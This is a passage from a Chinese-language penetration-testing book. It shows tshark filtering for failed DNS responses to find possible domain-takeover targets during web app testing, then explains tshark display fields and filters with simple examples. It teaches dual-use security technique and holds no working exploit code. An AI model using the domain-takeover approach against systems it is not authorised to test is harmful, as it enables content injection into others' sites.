我使用 Tshark 的一个场景是进行 Web 应用渗透测试。在测试网站的整个过程中，我都在终端运行 Tshark。这让我能够发现域名接管漏洞。假设一名 Web 开发者曾经使用过第三方 Web 服务将内容集成到网站中。在某个时刻，他们可能已经放弃了那个第三方域名或让域名过期。如果你能注册那个域名，可能就能将内容注入到 Web 应用中。

这是黑客使用此功能进行漏洞奖励的一个实际案例：


图 6.13 – 一名漏洞奖励猎人发现了一个域名接管机会

以下命令将提醒你潜在的域名接管：

```
 $ sudo tshark -i eth0 -Y "dns.flags eq 0x8183"
```

以下图像显示当你的 DNS 服务器无法解析某个域名时，你将看到的内容：


图 6.14 – 示例输出显示了可能的域名接管机会

如果在我的 Web 应用渗透测试过程中，在控制台中发现这个输出，我会尝试在应用中定位这个域名被调用的资源，通过查找我的代理历史记录。一旦找到调用该域名的资源，我会进一步调查，确定是否可以注册该域名，并评估对应用的影响。这就是一个可能的域名接管机会。

在探索了捕获和分析网络流量的介绍后，让我们进入下一部分，深入研究数据包捕获。

## 解释数据包捕获

Tshark 字段允许你指定想要从捕获的数据包中提取并显示的具体信息。通过使用字段，你可以集中关注相关数据并过滤掉杂乱的信息，从而使得分析和解释网络流量变得更加容易。使用字段有两种基本方式：显示字段（**-e**）和过滤字段（**-Y**）。显示字段指定你希望在输出中显示的内容。过滤字段提供了一种根据模式过滤流量的方法。

以下内容将简化显示字段和过滤字段之间的区别：

+   `-e` 从数据包解析中提取特定字段

+   `-Y` 对数据包应用显示过滤器

+   `-e` 选择要显示的内容，`-Y` 过滤显示的内容

+   `-e` 用于输出格式，`-Y` 用于条件过滤

+   使用两者来提取过滤后的字段：`-Y "http.request" -** **e http.host`

例如，要仅显示每个数据包的源 IP 地址和目标 IP 地址，你可以使用以下命令：

```
 $ tshark -e ip.src -e ip.dst
```

要根据字段值应用过滤器，你可以使用 `-Y` 或 `--display-filter` 选项，后跟过滤表达式。例如，要仅显示 HTTP 流量，可以使用以下命令：

```
 $ tshark -Y "http"
```

你可以将字段过滤器与逻辑运算符如 `and`、`or` 和 `not` 结合，创建更复杂的过滤表达式。例如，要显示仅来自特定 IP 地址的 HTTP 流量，可以使用以下表达式：

```
 $ tshark -Y "http and ip.src == 192.168.1.100"
```

Tshark 中有数百个可用字段，涵盖它理解的所有协议。然而，作为一名网络安全专业人士，你会发现自己大多数时候使用的是一组核心字段。以下是我在工作中最常用的 Tshark 字段：

+   `ip.src` : 源 IP 地址

+   `ip.dst` : 目标 IP 地址

+   `ip.proto` : IP 协议（TCP、UDP、ICMP 等）

+   `tcp.srcport` : TCP 源端口

+   `tcp.dstport` : TCP 目标端口

+   `udp.srcport` : UDP 源端口

+   `udp.dstport` : UDP 目标端口

+   `frame.time` : 数据包捕获的时间戳

+   `http.request.method` : HTTP 请求方法（`GET`、`POST` 等）

+   `http.request.uri` : HTTP 请求的 URI

+   `http.user_agent` : HTTP 客户端的 User-Agent 字符串

+   `http.host` : HTTP 请求的 Host 头部

+   `dns.qry.name` : DNS 请求中查询的主机名

+   `dns.resp.name` : DNS 响应中返回的主机名

+   `dns.resp.type` : DNS 响应的查询类型（`A`、`AAAA`、`CNAME` 等）

源和目标 IP 地址字段（`ip.src** / `dst**）对于识别参与通信的端点非常有用。你可以迅速发现可疑的 IP 地址或跟踪主机之间的对话。

IP 协议字段（**ip.proto**）告诉你流量是 TCP、UDP、ICMP 还是其他。这有助于对流量进行高层次分类。

源和目标端口字段（`tcp.srcport`、`udp.dstport` 等）可以标识使用的网络服务，例如端口 `80` 上的 HTTP、端口 `443` 上的 HTTPS、端口 `53` 上的 DNS 等。监控这些字段可以揭示你网络中的未经授权的服务。

`frame.time` 字段为每个数据包添加时间戳，这对于分析事件顺序以及发现如重放攻击或密码猜测等情况至关重要。

对于调查 Web 流量，HTTP 方法、URI、用户代理和主机字段能提供关于潜在恶意请求、易受攻击的 Web 应用、恶意软件 C2 流量等的洞察。

最后，DNS 查询和响应字段在事件响应和威胁狩猎中非常宝贵，帮助你追踪与恶意软件或数据外泄相关的域名查询。

还有许多其他有用的字段，但这些是我最常依赖的。结合 Tshark 强大的过滤功能，你就拥有了一个检查可疑流量、调查事件和捕捉威胁的必备工具。

精通 Tshark 需要练习，但这绝对是值得的。能够快速从原始网络流量中解析出相关细节是网络安全分析员和渗透测试人员的核心技能。熟悉这些常见字段是一个很好的开始。从那里，你可以根据需要深入研究更高级的协议特定字段。

Tshark 的好处在于它非常灵活；如果有你需要的字段，Tshark 很可能可以提取出来。不要害怕探索完整的字段列表（**tshark -G fields**）并进行实验。随着时间的推移，你将建立起自己的常用字段和过滤器工具包，使你成为一个更快速、更有效的分析员。一旦你熟练掌握了使用 Tshark 字段的技巧，结合你对 Bash 脚本编写的了解，自动化重复、枯燥的工作，让你的职业生涯更上一层楼。

# 总结

在本章中，你学会了如何利用 Bash 在 Unix/Linux 环境中配置、排除故障和利用网络。你现在具备了访问网络配置细节、与各种网络组件交互以及使用 Bash 脚本利用易受攻击的网络服务的技能。

你从网络基础知识开始学习，学会了如何识别网络配置细节并使用 Bash 命令执行网络诊断。然后你进一步学习了编写网络枚举脚本，自动化工具扫描网络并枚举服务。接着，你探索了如何利用 Bash 进行网络利用，编写脚本以针对漏洞。最后，你初步了解了如何直接在 Bash 中分析网络流量以提取有用信息。

通过本章学到的知识，你现在具备了为各种网络任务编写强大的 Bash 脚本的能力，从基本管理到高级渗透测试。所学技能将为你服务良好，无论是保护自己的网络还是测试他人的网络。

在下一章中，我们将探讨并行处理以加快对时间敏感的 Bash 脚本的执行速度。
